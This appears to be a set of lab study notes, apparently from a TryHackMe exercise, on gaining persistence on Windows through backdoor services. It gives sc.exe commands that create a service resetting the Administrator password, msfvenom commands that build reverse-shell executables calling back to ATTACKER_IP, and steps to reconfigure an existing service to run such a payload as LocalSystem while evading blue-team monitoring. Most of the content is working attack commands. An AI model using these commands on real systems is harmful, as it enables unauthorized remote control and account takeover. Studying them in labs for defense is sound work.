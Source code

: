 #cybersecurity #windows 

Services can run in background when victim machine is started

Services are basically executable that runs in the background.

### Creating backdoor services

```powershell

sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto

sc.exe start THMservice

```
**Note:** There must be a space after each equal sign for the command to work.

The net user command will be executed when the service is started, resetting the Administrator password to Passwd123

We can create a reverse shell with msfvenom

```bash
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

Then we can copy the executable to the target machine and point the service binPath to it
```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```


### Modifying existing services
Blue team may monitor new service creation across the network

So we use an existing service, disabled ones are a good choice

```
sc.exe query state=all
```

There are three things we care about when using a service for persistence:

- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's create a new reverse shell with msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

And then we reconfigure the target service 

```powershell
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```